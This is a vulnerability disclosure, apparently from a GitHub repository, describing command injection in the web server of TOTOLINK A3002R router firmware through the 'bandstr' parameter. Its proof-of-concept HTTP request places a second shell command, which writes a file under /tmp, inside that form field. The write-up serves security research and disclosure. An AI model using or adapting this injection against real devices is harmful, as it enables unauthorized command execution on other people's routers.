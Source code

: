 # totolink_A3002R_remote_command_exec
**description**: a Remote-Command-Execution  in /bin/boa on totolink A3002R-V4.0.0-B20230531.1404 via parameter "bandstr"


## Firmware
**brand**:totolink   

**product**:A3002R-V4 

**version**:V4.0.0-B20230531.1404

The firmware can be downloaded from this [website][1]

## detail
**addr**:0045a2a4

**function**:FUN_0045a1f8

Using ghidra we can know that the post parameter "bandstr" will be sprintf as the second input parameter and result the command injection and the realte action is  formMapDelDevice
![alt text](./img/action.png)


![alt text](./img/image-2.png)


# poc
burp suite change the packet as follow
```
POST /boafrm/formMapDelDevice HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 163

Origin: http://192.168.0.1

Connection: close

Referer: http://192.168.0.1/multi_ap_popup_client_details.htm

Upgrade-Insecure-Requests: 1





sessionCheck=eac3d25a37ff88c5d813f312586baec9&submit-url=%2Fmulti_ap_popup_client_details.htm&macstr=123&clientoff=no&bandstr=123;echo%20123456%20> /tmp/rec1.txt
```
![poc](https://img.picgo.net/2025/03/26/poc7deff67770e22ffc.png)
![alt text](./img/poc.png)

[1]:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/258/ids/36.html
